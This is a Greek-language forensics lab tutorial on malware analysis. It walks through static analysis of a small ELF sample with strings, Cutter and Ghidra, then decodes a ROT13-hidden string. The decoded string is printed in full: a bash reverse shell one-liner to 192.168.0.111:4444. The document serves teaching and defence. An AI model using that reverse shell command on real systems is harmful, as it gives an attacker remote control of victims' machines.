










# Ανάλυση Malware

> 🇬🇷 Ελληνική έκδοση του [Lab 07 — Malware Analysis](../../Lab%2007/README.md)

Malware, συντομογραφία του *malicious software* (κακόβουλο λογισμικό), είναι ο όρος που χρησιμοποιείται για οποιοδήποτε λογισμικό που προκαλεί ζημιά ή βλάβη σε χρήστη, υπολογιστή, δίκτυο ή συσκευή. Το malware μπορεί να λάβει πολλές μορφές, όπως ιοί (viruses), τρωικά (trojans), σκώληκες (worms), spyware, adware και ransomware.

Με την αυξανόμενη εξάρτηση από την τεχνολογία και το Internet, το malware έχει γίνει μια διαδεδομένη απειλή τόσο για ιδιώτες όσο και για οργανισμούς, προκαλώντας οικονομικές ζημιές, παραβιάσεις δεδομένων και βλάβες συστημάτων. Ως εκ τούτου, η ανάλυση malware έχει γίνει κρίσιμη δεξιότητα στον ψηφιακό εντοπισμό αδικημάτων (digital forensics), για να βοηθήσει στην ταυτοποίηση και την αντιμετώπιση αυτών των απειλών.

Αυτό το εργαστήριο αποτελεί μια εισαγωγή σε διαφορετικές τεχνικές και εργαλεία που χρησιμοποιούνται για να αναλύσουμε και να κατανοήσουμε τη λειτουργικότητα και τη συμπεριφορά ενός malware.

> 📚 **Γιατί μετράει:** Στην πραγματική έρευνα, η ανάλυση malware απαντά βασικά ερωτήματα: *τι* κάνει το πρόγραμμα, *πώς* επικοινωνεί με τον επιτιθέμενο και *ποιον* στοχεύει. Η ίδια δεξιότητα χρησιμοποιείται και για την κατασκευή υπογραφών ανίχνευσης (detection signatures) που προστατεύουν όλη την οργάνωση.

# Τι είναι η ανάλυση malware;

Για να παραθέσουμε απόσπασμα από το βιβλίο "Practical Malware Analysis":

> Malware analysis is the art of dissecting malware to understand how it works, how to identify it, and how to defeat or eliminate it. And you don't need to be an uber-hacker to perform malware analysis.

Με λίγα λόγια, η ανάλυση malware είναι η διαδικασία ανάλυσης και κατανόησης κακόβουλου λογισμικού προκειμένου να ταυτοποιηθούν η συμπεριφορά, τα χαρακτηριστικά και η πιθανή επίπτωσή του σε ένα σύστημα.

Μπορούμε να ακολουθήσουμε δύο προσεγγίσεις όταν πρόκειται να αναλύσουμε malware: τη **Στατική Ανάλυση** (Static Analysis) και τη **Δυναμική Ανάλυση** (Dynamic Analysis).

## Στατική Ανάλυση

Η στατική ανάλυση περιλαμβάνει την εξέταση του δυαδικού κώδικα (binary code), την αποσυναρμολόγηση (disassembly) του κώδικα και το reverse engineering. Ο στόχος της στατικής ανάλυσης είναι να αποκτηθεί μια υψηλού επιπέδου αφαίρεση και να καθοριστεί αν ο κώδικας είναι πιθανόν κακόβουλος. Είναι χρήσιμη για την ταυτοποίηση γνωστών οικογενειών malware, καθώς και για την ανάπτυξη υπογραφών αντιίων (antivirus signatures) και άλλων μεθόδων ανίχνευσης.

> 🔤 **Εξήγηση όρων:**
> - **Δυαδικός κώδικας (binary):** το αρχείο που προκύπτει όταν μεταγλωττίσει (compile) κάποιος πηγαίο κώδικα· περιέχει μηχανικό κώδικα κατανοητό από την επεξεργαστή, όχι από τον άνθρωπο.
> - **Disassembly:** η μετατροπή αυτού του μηχανικού κώδικα πίσω σε οδηγίες αναγνώσιμης μορφής (π.χ. `mov`, `call`, `jmp` για την αρχιτεκτονική x86-64).
> - **Reverse engineering:** η διαδικασία ανάστροφης μηχανικής — από το έτοιμο προϊόν (το δυαδικό αρχείο) κατανοούμε πώς λειτουργούσε το αρχικό πρόγραμμα, ακόμη κι αν δεν διαθέτουμε τον πηγαίο κώδικα.

> 📚 **Γιατί χρησιμοποιείται:** Η στατική ανάλυση μας επιτρέπει να δούμε *τι θέλει* να κάνει το πρόγραμμα χωρίς να το εκτελέσουμε ποτέ — άρα χωρίς κανένα ρίσκο για τον ερευνητή ή το εργαστήριο.

## Δυναμική Ανάλυση

Η δυναμική ανάλυση είναι μια μέθοδος ανάλυσης malware μέσω της εκτέλεσής του σε απομονωμένο περιβάλλον (sandbox) και της παρατήρησης της συμπεριφοράς του, όπως η παρακολούθηση των κλήσεων συστήματος (system calls) που κάνει, των δικτυακών συνδέσεων που εγκαθιστά και των άλλων αλληλεπιδράσεών του με το σύστημα. Είναι ιδιαίτερα χρήσιμη για να κατανοήσουμε πώς το malware αλληλεπιδρά με το σύστημα και τι προορίζεται να κάνει.

> 💡 Η βασική διαφορά μεταξύ των δύο προσεγγίσεων είναι ότι η στατική ανάλυση περιλαμβάνει την εξέταση του κώδικα του malware χωρίς να εκτελεστεί, ενώ η δυναμική ανάλυση περιλαμβάνει την εκτέλεση του malware σε απομονωμένο περιβάλλον για να παρατηρηθεί η συμπεριφορά του.

> ⚠️ **Προσοχή:** Η δυναμική ανάλυση συνεπάγεται πραγματικό ρίσκο. Ποτέ — σε καμία περίπτωση — να μην εκτελέσετε κακόβουλο δείγμα στην κύρια μηχανή σας ή σε δίκτυο που συνδέεται με το Internet. Χρησιμοποιείται πάντα απομονωμένο VM, offline ή σε δίκτυο μόνο για δοκιμές.

> 💡 **Συμβουλή:** Στην πράξη οι δύο μέθοδοι συμπληρώνουν η μία την άλλη: ξεκινάτε με στατική ανάλυση για μια πρώτη εικόνα και μετά προχωράτε σε δυναμική για να δείτε τι συμβαίνει κατά την εκτέλεση. Αν η μία οδός φτάνει σε αδιέξοδο, δοκιμάστε την άλλη.

# Πρακτική Εφαρμογή

Αφού αποκτήσαμε μια βασική κατανόηση της στατικής και της δυναμικής ανάλυσης, ας τις δοκιμάσουμε στην πράξη. Το δυαδικό αρχείο που θα αναλύσουμε είναι ουσιαστικά μια μεταγλωττισμένη έκδοση κώδικα C που είναι διαθέσιμη στο [https://github.com/vonderchild/digital-forensics-lab/blob/main/Lab 07/files/main.c](https://github.com/vonderchild/digital-forensics-lab/blob/main/Lab%2007/files/main.c).

Για να ξεκινήσουμε, μπορούμε να κατεβάσουμε το μεταγλωττισμένο δυαδικό αρχείο χρησιμοποιώντας την ακόλουθη εντολή:

```
wget https://github.com/vonderchild/digital-forensics-lab/raw/main/Lab%2007/files/main
```

## Αρχική Ανάλυση

Πριν ξεκινήσουμε την αναλυτική μας εξέταση του δυαδικού αρχείου, είναι σημαντικό να ταυτοποιήσουμε τον τύπο αρχείου με τον οποίο έχουμε να κάνουμε και να εξαγάγουμε τα "εύκολα μήλα" (low hanging fruits), δηλαδή εύκολα ευρήματα όπως ενσωματωμένες διευθύνσεις URL, hard-coded διευθύνσεις IP ή συμβολοσειρές (strings) που περιέχουν ύποπτες λέξεις-κλειδιά.

Για να ταυτοποιήσουμε τον τύπο του αρχείου με τον οποίο έχουμε να κάνουμε, ας εκτελέσουμε την εντολή `file`:

```
$ file main
main: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ba2f226142eb8b7032264aab8c3386d1487bcb17, for GNU/Linux 3.2.0, not stripped
```

> 🔤 **Εξήγηση του αποτελέσματος:** Το αρχείο είναι ένα **ELF** (Executable and Linkable Format) — ο πρότυπος τύπος εκτελέσιμων αρχείων σε Linux/Unix — 64-bit για x86-64, δυναμικά συνδεδεμένο (χρησιμοποιεί βιβλιοθήκες κατά την εκτέλεση) και **not stripped**, δηλαδή δεν έχουν αφαιρεθεί τα ονόματα συναρτήσεων και μεταβλητών — κάτι πολύ χρήσιμο για τον αναλυτή.

Φαίνεται ότι αυτό το δυαδικό αρχείο έχει μεταγλωττιστεί με μεταγλωττιστή GNU. Ας χρησιμοποιήσουμε την εντολή `strings` για να εξαγάγουμε όλες τις αναγνώσιμες συμβολοσειρές από το δυαδικό αρχείο:

```
$ strings main 
<SNIP>

onfu -p H
'onfu -vH
 >& /qriH
/gpc/192H
.168.0.1H
11/4444 H
0>&1f

<SNIP>
```

Όπως μπορεί να παρατηρηθεί, ορισμένες από τις εξαχθείσεις συμβολοσειρές περιέχουν μέρος μιας διεύθυνσης IP `192.168.0.111`.

> 💡 **Συμβουλή:** Παρατηρήστε προσεκτικά την έξοδο της `strings`: αυτά τα κομμάτια κειμένου μαζί δημιουργούν μια διεύθυνση IP (`192.168.0.111`) και μια θύρα (`4444` — κλασική θύρα για reverse shells). Συχνά ακριβώς αυτά τα "τυχαία" τμήματα είναι το πιο τιμιό εύρημα στην αρχική ανάλυση.

Άλλες τεχνικές που συχνά χρησιμοποιούνται κατά την αρχική ανάλυση περιλαμβάνουν τον έλεγχο αν το αρχείο είναι packed ή συμπιεσμένο, καθώς και την αναζήτηση υπογραφών αρχείου (file signatures) σε πλατφόρμες όπως το [VirusTotal](https://www.virustotal.com/) για να δούμε αν το αρχείο έχει αναλυθεί ξανά.

> 💡 Το VirusTotal είναι μια πλατφόρμα που μας επιτρέπει να αναλύσουμε ύποπτα αρχεία, domains, IPs και URLs για να ανιχνεύσουμε και να αναλύσουμε malware και να το μοιραστούμε αυτόματα με την κοινότητα ασφαλείας.

> ⚠️ **Προσοχή:** Ανεβάζοντας ένα δείγμα στο VirusTotal το μοιράζεστε ουσιαστικά με την κοινότητα και τους κατασκευαστές αντιίων. Αν αναλύετε ενεργό κακόβουλο πρόγραμμα υπό διερευνήση, υπάρχει κίνδυνος να ειδοποιηθεί ο επιτιθέμενος — για πολύ ευαίσθητα δείγματα υπάρχουν ιδιωτικές υπηρεσίες.

## Στατική Ανάλυση

Για τη στατική ανάλυση, θα χρησιμοποιήσουμε το [Cutter](https://cutter.re/), ένα εργαλείο reverse engineering που μπορεί να κάνει disassemble και decompile δυαδικά αρχεία. Το Cutter παρέχει και debugger για δυναμική ανάλυση, αν και βρίσκεται ακόμη σε βήτα κατά τη στιγμή συγγραφής.

> 🔤 **Εξήγηση όρων:** Ο **disassembler** μετατρέπει τον μηχανικό κώδικα σε αναγνώσιμες οδηγίες assembly, ενώ ο **decompiler** πηγαίνει ένα βήμα παραπέρα και προσπαθεί να ανακτήσει κώδικα υψηλού επιπέδου (π.χ. C ή Python) από το δυαδικό αρχείο. Ο διαχωρισμός αυτός είναι σημαντικός: η αποσυναρμολόγηση είναι πιστή στη μηχανή, το decompiling είναι προσεγγιστικό αλλά πολύ πιο ευανάγνωστο για τον άνθρωπο.

Για να κατεβάσετε και να εκτελέσετε το cutter, εκτελέστε τις ακόλουθες εντολές:

```
wget https://github.com/rizinorg/cutter/releases/download/v2.2.0/Cutter-v2.2.0-Linux-x86_64.AppImage
chmod +x Cutter-v2.2.0-Linux-x86_64.AppImage
./Cutter-v2.2.0-Linux-x86_64.AppImage --appimage-extract
./squashfs-root/AppRun
```

Αφού εκκινηθεί η εφαρμογή, πατήστε Select και ανοίξτε το αρχείο δυαδικού κώδικα `main` που είχετε κατεβάσει:



Μετά, πατήστε Open και στο παράθυρο Load Options πατήστε Ok.



Αυτό θα σας μεταφέρει στην καρτέλα dashboard που εμφανίζει μια επισκόπηση του δυαδικού αρχείου που αναλύουμε, μεταξύ άλλων το format, τον τύπο αρχείου, τη γλώσσα προγραμματισμού, την αρχιτεκτονική και τα hashes.



Για να εξετάσετε τον κώδικα μιας συνάρτησης, μπορείτε να κάνετε διπλό κλικ στο όνομα της συνάρτησης στο αριστερό πάνελ, και θα εμφανιστεί η αποσυναρμολογημένη (disassembled) έκδοση του κώδικα:



Για να δείτε τον αποσυναρμολογημένο κώδικα C της ίδιας συνάρτησης, επιλέξτε Decompile από το κάτω πάνελ και μετά Ghidra από τα κάτω δεξιά:



> 🔤 **Σύντομο ιστορικό:** Η Ghidra είναι ένα εργαλείο reverse engineering ανοιχτού κώδικα, ανάπτυξης της NSA, που χρησιμοποιείται ως decompiler μέσα στο Cutter. Επιτρέπει να δείτε "σαν να ήταν" γραμμένο σε C ένα πρόγραμμα που έχει μεταγλωττιστεί σε μηχανικό κώδικα.

Φαίνεται ότι η συνάρτηση main ξεκινά με τη δήλωση ορισμένων μεταβλητών, στη συνέχεια τους αποδίδει κάποιες τιμές και καλεί τη συνάρτηση `caesar_decode`, μετά καλείται η συνάρτηση `system` και τέλος η συνάρτηση main επιστρέφει.

> 🚧 Ο αποσυναρμολογημένος (decompiled) κώδικας μπορεί να φαίνεται πιο πολύπλοκος από τον αρχικό πηγαίο κώδικα, επειδή στερείται των αφαιρέσεων υψηλού επιπέδου, των σχολίων και των ονομάτων μεταβλητών που υπάρχουν στον αρχικό πηγαίο κώδικα, καθιστώντας την κατανόησή του πιο δύσκολη.

Ας δούμε τώρα τι κάνει το `caesar_decode`:



Όπως υποδηλώνει και το όνομά του, το `caesar_decode` δέχεται ως είσοδο έναν δείκτη (pointer) σε πίνακα τύπου `char` και κλειδί τύπου `int`, στη συνέχεια αποκωδικοποιεί τον πίνακα περνώντας από αυτόν και χρησιμοποιώντας τον κωδικό Caesar (Caesar cipher).

Στη συνάρτηση main, βλέπουμε ότι το `caesar_decode` καλείται με δύο παραμέτρους — έναν δείκτη στη συμβολοσειρά και τη δεκαεξαδική τιμή `0xd`, η οποία αντιστοιχεί σε `13` σε δεκαδική.

Επομένως, μπορούμε να συμπεράνουμε ότι το κλειδί που χρησιμοποιείται στον κωδικό Caesar είναι 13, και μπορούμε να χρησιμοποιήσουμε το [CyberChef](https://gchq.github.io/CyberChef/) για να αποκωδικοποιήσουμε από τη δεκαεξαδική αναπαράσταση της συμβολοσειράς:



> 📚 **Λίγα λόγια για τον κωδικό Caesar:** Κάθε γράμμα μετακινείται κατά μια σταθερή αριθμητική απόσταση στο αλφάβητο· η έκδοση με κλειδί 13 είναι γνωστή ως **ROT13**. Είναι εξαιρετικά εύκολο να σπάσει· στην πραγματική ανάλυση συναντάται ως απλή απόπειρα απόκρυψης συμβολοσειρών από εξαγωγές με `strings`.

Η συνταγή (recipe) μπορεί να βρεθεί [εδώ](https://gchq.github.io/CyberChef/#recipe=Swap_endianness('Hex',8,false)From_Hex('Auto')ROT13(true,true,false,13)&input=MHgyMDcwMmQyMDc1NjY2ZTZmCjB4NzYyZDIwNzU2NjZlNmYyNwoweDY5NzI3MTJmMjAyNjNlMjAKMHgzMjM5MzEyZjYzNzA2NzJmCjB4MzEyZTMwMmUzODM2MzEyZQoweDIwMzQzNDM0MzQyZjMxMzEKMHgzMTI2M2UzMAoweDI3).

Αυτό υποδηλώνει ότι η συμβολοσειρά `bash -c 'bash -i >& /dev/tcp/192.168.0.111/4444' 0>&1` περνά ως είσοδος στη συνάρτηση `system`, η οποία στη συνέχεια την εκτελεί για να εγκαταστήσει μια σύνδεση **reverse shell**.

> 🔤 **Τι είναι reverse shell;** Αντί ο επιτιθέμενος να συνδεθεί *προς* το θύμα, το θύμα συνδέεται *πίσω* προς τον επιτιθέμενο, παραχωρώντας του ένα interactive shell — κάτι που συχνά περνά αθόρυβα από φιλτρα απερχόμενης κίνησης (egress filters). Στην έρευνα, η ανακάλυψη τέτοιας σύνδεσης εντοπίζει αμέσως το command-and-control (C2) infrastructure του επιτιθέμενου.

## Δυναμική Ανάλυση

Για τη δυναμική ανάλυση, μπορούμε να χρησιμοποιήσουμε εργαλεία όπως το `strace` ή το `ltrace` για να παρακολουθήσουμε τις κλήσεις συστήματος (system calls) και τις κλήσεις βιβλιοθηκών (library calls) που κάνει το δυαδικό αρχείο κατά την εκτέλεση. Επιπλέον, μπορούμε να χρησιμοποιήσουμε εργαλεία όπως το `Wireshark` ή το `tcpdump` για να παρακολουθήσουμε τη δίκτυακη κίνηση που παράγει το δυαδικό αρχείο.

